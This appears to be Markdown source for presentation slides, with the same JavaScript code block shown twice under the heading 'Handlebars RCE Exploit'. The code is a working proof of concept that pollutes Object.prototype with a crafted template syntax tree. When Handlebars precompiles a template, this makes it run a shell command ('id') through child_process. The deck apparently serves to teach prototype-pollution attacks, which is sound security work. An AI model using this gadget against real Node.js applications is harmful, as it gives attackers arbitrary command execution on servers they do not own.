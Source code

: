 ```js {all|3|4|4|4|6|6|8-14|10-12|11-12}{lines:true, maxHeight:'30%', at:1}
const Handlebars = require("handlebars");

Object.prototype.type = "Program";
Object.prototype.body = [
  {
    type: "MustacheStatement",
    path: 0,
    params: [
      {
        type: "NumberLiteral",
        value:
          "console.log(process.mainModule.require('child_process').execSync('id').toString())",
      },
    ],
    loc: {
      start: 0,
      end: 0,
    },
  },
];

const source = `Hello {{ msg }}`;
const template = Handlebars.precompile(source);
```

---

#### Handlebars RCE Exploit

```js {all|3-20|22-23}{lines:true, maxHeight:'45%'}
const Handlebars = require("handlebars");

Object.prototype.type = "Program";
Object.prototype.body = [
  {
    type: "MustacheStatement",
    path: 0,
    params: [
      {
        type: "NumberLiteral",
        value:
          "console.log(process.mainModule.require('child_process').execSync('id').toString())",
      },
    ],
    loc: {
      start: 0,
      end: 0,
    },
  },
];

const source = `Hello {{ msg }}`;
const template = Handlebars.precompile(source);
```
